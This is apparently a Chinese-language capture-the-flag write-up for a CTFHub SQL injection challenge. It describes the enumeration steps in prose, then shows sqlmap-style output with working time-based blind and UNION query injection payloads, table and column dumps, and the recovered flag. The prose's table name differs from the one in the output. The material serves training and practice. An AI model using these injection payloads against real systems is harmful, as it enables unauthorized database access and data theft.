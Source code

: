 ```yaml
---
title: MySQL结构
date: 2024-11-23T18:44:33Z
lastmod: 2024-11-23T18:50:14Z
---
```


# MySQL结构

根据网页显示内容输入1进行测试，此题可能存在 SQL 注入。此题与前一题类似，这次使用手工注入。先判断是否存在注入，发现存在注入后检查注入点。判断字段数量，然后检查数据库位置，知道数据库位置后[查看数据库版本](https://so.csdn.net/so/search?q=%E6%9F%A5%E7%9C%8B%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%88%E6%9C%AC&spm=1001.2101.3001.7020)和数据库名。接着查看全部数据库名，并查看这些数据库的表名，最后在 lvlbiqemvj 表中的数据发现此题 flag 。

```shell
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4673 FROM (SELECT(SLEEP(5)))Zdxl)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-3592 UNION ALL SELECT CONCAT(0x7171717871,0x47507355576e4e6b494d4c75586462704e727346624f6d564d6e6668534473684f79787847454a55,0x717a7a7671),NULL-- -

```

```shell
Database: sqli                                                                                                                            
[2 tables]
+------------+
| egymeqgjcz |
| news       |
+------------+
```

```shell
Database: sqli                                                                                                                            
Table: egymeqgjcz
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| zfhrovplks | varchar(100) |
+------------+--------------+

Database: sqli
Table: news
[2 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| data   | varchar(20) |
| id     | int(10)     |
+--------+-------------+
```

```shell
Database: sqli
Table: egymeqgjcz
[1 entry]
+----------------------------------+
| zfhrovplks                       |
+----------------------------------+
| ctfhub{4ab37bed5dffcdbe6b965b8a} |
+----------------------------------+

```
